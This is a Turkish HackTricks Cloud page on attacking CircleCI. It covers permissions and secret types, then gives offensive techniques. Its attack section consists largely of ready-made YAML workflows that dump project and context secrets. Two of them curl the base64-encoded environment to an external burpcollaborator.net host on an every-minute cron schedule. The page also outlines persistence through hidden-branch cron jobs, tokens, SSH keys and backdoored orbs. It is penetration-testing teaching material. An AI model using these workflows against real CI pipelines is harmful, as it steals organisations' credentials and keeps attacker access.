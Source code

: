 # CircleCI Güvenliği

<details>

{% hint style="success" %}
AWS Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarını paylaşarak PR'ler göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}

## Temel Bilgiler

[**CircleCI**](https://circleci.com/docs/2.0/about-circleci/), bazı kodlarla ne yapmak istediğinizi ve ne zaman yapılmasını istediğinizi belirten **şablonları tanımlayabileceğiniz** bir Sürekli Entegrasyon platformudur. Bu şekilde **örneğin depo ana dalınızdan doğrudan testleri otomatikleştirebilir** veya **dağıtımları yapabilirsiniz**.

## İzinler

**CircleCI**, **giriş yapan hesapla ilgili github ve bitbucket izinlerini devralır**.\
Testlerimde, **github depo üzerinde yazma izinleriniz olduğu sürece**, CircleCI'da **proje ayarlarını yönetebileceğinizi** (yeni ssh anahtarları ayarlamak, proje api anahtarları almak, yeni CircleCI yapılandırmalarıyla yeni dallar oluşturmak...) kontrol ettim.

Ancak, bir **depo yöneticisi** olmanız gerekmektedir **depo**yu bir CircleCI projesine **dönüştürmek için**.

## Çevre Değişkenleri ve Sırlar

[**Belgelere**](https://circleci.com/docs/2.0/env-vars/) göre bir iş akışı içinde **çevre değişkenlerine değer yüklemenin** farklı yolları bulunmaktadır.

### Dahili çevre değişkenleri

CircleCI tarafından çalıştırılan her konteyner her zaman [**belgelerde tanımlanan belirli çevre değişkenlerine**](https://circleci.com/docs/2.0/env-vars/#built-in-environment-variables) sahip olacaktır, örneğin `CIRCLE_PR_USERNAME`, `CIRCLE_PROJECT_REPONAME` veya `CIRCLE_USERNAME`.

### Açık metin

Onları açık metin olarak bir **komut** içinde bildirebilirsiniz:
```yaml
- run:
name: "set and echo"
command: |
SECRET="A secret"
echo $SECRET
```
**Çalışma ortamı** içinde açık metin olarak tanımlayabilirsiniz:
```yaml
- run:
name: "set and echo"
command: echo $SECRET
environment:
SECRET: A secret
```
**build-job** ortamı içinde açık metin olarak tanımlayabilirsiniz:
```yaml
jobs:
build-job:
docker:
- image: cimg/base:2020.01
environment:
SECRET: A secret
```
**Bunları bir konteynerin ortamında açık metin olarak bildirebilirsiniz:**
```yaml
jobs:
build-job:
docker:
- image: cimg/base:2020.01
environment:
SECRET: A secret
```
### Proje Sırları

Bunlar sadece **projenin** (herhangi bir **dal** tarafından) **erişilebilir** olacak **sırlardır**.\
Onları şurada **bildirildiğini** görebilirsiniz _https://app.circleci.com/settings/project/github/\<org\_adı>/\<repo\_adı>/environment-variables_

![](<../.gitbook/assets/image (129).png>)

{% hint style="danger" %}
"**Değişkenleri İçe Aktar**" işlevi, bu projeye **diğer projelerden değişkenleri içe aktarmaya** izin verir.
{% endhint %}

### Bağlam Sırları

Bunlar **org genelindeki sırlardır**. **Varsayılan olarak herhangi bir depo**, burada saklanan herhangi bir sıraya **erişebilecektir**:

![](<../.gitbook/assets/image (123).png>)

{% hint style="success" %}
Ancak, farklı bir grup (Tüm üyeler yerine) **seçilebilir ve sırlara sadece belirli kişilerin erişimine izin vermek** için.\
Bu şu anda sırların güvenliğini artırmak için en iyi yollardan biridir, herkesin erişimine izin vermemek ancak bazı kişilere erişim sağlamak.
{% endhint %}

## Saldırılar

### Açık Metin Sırlarını Arama

Eğer **VCS'ye erişiminiz varsa** (github gibi) her bir repo ve her bir dalın `.circleci/config.yml` dosyasını kontrol edin ve orada saklanan potansiyel **açık metin sırlarını arayın**.

### Gizli Çevre Değişkenleri ve Bağlam Numaralandırma

Kodları kontrol ederek her `.circleci/config.yml` dosyasında **kullanılan tüm sırların adlarını** bulabilirsiniz. Ayrıca bu dosyalardan **bağlam adlarını** alabilir veya bunları web konsolunda kontrol edebilirsiniz: _https://app.circleci.com/settings/organization/github/\<org\_adı>/contexts_.

### Proje Sırlarını Dışarı Aktarma

{% hint style="warning" %}
Tüm proje ve bağlam **SIRLARINI dışarı aktarmak** için, github org içindeki **yalnızca 1 depoya yazma** erişiminizin olması yeterlidir (_ve hesabınızın bağlamlara erişimi olmalıdır ancak varsayılan olarak herkes her bağlama erişebilir_).
{% endhint %}

{% hint style="danger" %}
"**Değişkenleri İçe Aktar**" işlevi, bu projeye **diğer projelerden değişkenleri içe aktarmaya** izin verir. Bu nedenle, bir saldırgan **tüm projelerin değişkenlerini tüm depolardan içe aktarabilir** ve ardından **hepsini birlikte dışarı aktarabilir**.
{% endhint %}

Tüm proje sırları her zaman işlerin çevresinde ayarlanır, bu nedenle env'i çağırmak ve base64'te şifrelemek sırları **iş akışı web günlük konsolunda dışarı aktaracaktır**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env
```
Eğer **web konsoluna erişiminiz yoksa** ancak **repo'ya erişiminiz varsa** ve CircleCI'nin kullanıldığını biliyorsanız, sadece **her dakika tetiklenen bir iş akışı oluşturabilir** ve **sırları harici bir adrese sızdırabilirsiniz**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env
```
### Bağlam Sırlarını Dışarı Aktar

**Bağlam adını belirtmeniz gerekmektedir** (bu aynı zamanda proje sırlarını da dışarı aktaracaktır):
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env:
context: Test-Context
```
Eğer **web konsoluna erişiminiz yoksa** ancak **repo'ya erişiminiz varsa** ve CircleCI'nin kullanıldığını biliyorsanız, sadece **her dakika tetiklenen bir iş akışını değiştirebilir** ve **sırları harici bir adrese sızdırabilirsiniz**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env:
context: Test-Context
```
{% hint style="warning" %}
Yalnızca bir `.circleci/config.yml` dosyası oluşturmak, bir CircleCI derlemesini tetiklemek için yeterli değildir. **Projeyi CircleCI konsolunda etkinleştirmeniz gerekir**.
{% endhint %}

### Buluttan Kaçış

**CircleCI**, derlemelerinizi **kendi makinelerinde veya kendi makinelerinizde** çalıştırma seçeneği sunar.\
Varsayılan olarak, makineleri GCP'de bulunur ve başlangıçta ilgili herhangi bir şey bulamayabilirsiniz. Ancak, bir kurban **kendi makinelerinde (muhtemelen bir bulut ortamında)** görevleri çalıştırıyorsa, ilginç bilgiler içeren bir **bulut meta veri uç noktası bulabilirsiniz**.

Önceki örneklerde her şey bir docker konteyneri içinde başlatıldı, ancak aynı zamanda bir VM makinesi başlatılmasını da **isteyebilirsiniz (farklı bulut izinlerine sahip olabilir)**:
```yaml
jobs:
exfil-env:
#docker:
#  - image: cimg/base:stable
machine:
image: ubuntu-2004:current
```
Ya da uzaktan erişime sahip bir docker konteyneri:
```yaml
jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- setup_remote_docker:
version: 19.03.13
```
### Kalıcılık

* API uç noktalarına kullanıcı erişimi ile **kullanıcı token'ları oluşturmak** mümkündür.
* _https://app.circleci.com/settings/user/tokens_
* Projeye verilen izinlerle erişmek için **proje token'ları oluşturmak** mümkündür.
* _https://app.circleci.com/settings/project/github/\<org>/\<repo>/api_
* Projelere **SSH anahtarları eklemek** mümkündür.
* _https://app.circleci.com/settings/project/github/\<org>/\<repo>/ssh_
* **Her gün tüm bağlam env değişkenlerini sızdıran** beklenmeyen bir projede **gizli bir dalda cron işi oluşturmak** mümkündür.
* Veya her gün tüm bağlam ve **proje sırlarını sızdıran** bilinen bir işi bir dalda oluşturmak / değiştirmek mümkündür.
* Github sahibiyseniz **doğrulanmamış orb'ları** kabul edebilir ve bir işte **arka kapı** olarak yapılandırabilirsiniz.
* Bazı görevlerde **komut enjeksiyonu açığı** bulabilir ve bir **gizli** değişkenin değerini değiştirerek **komutlar enjekte edebilirsiniz**

<details>

{% hint style="success" %}
AWS Hacking öğrenin ve uygulayın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **HackTricks** ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına PR göndererek hacking püf noktalarını paylaşın.

</details>
{% endhint %}
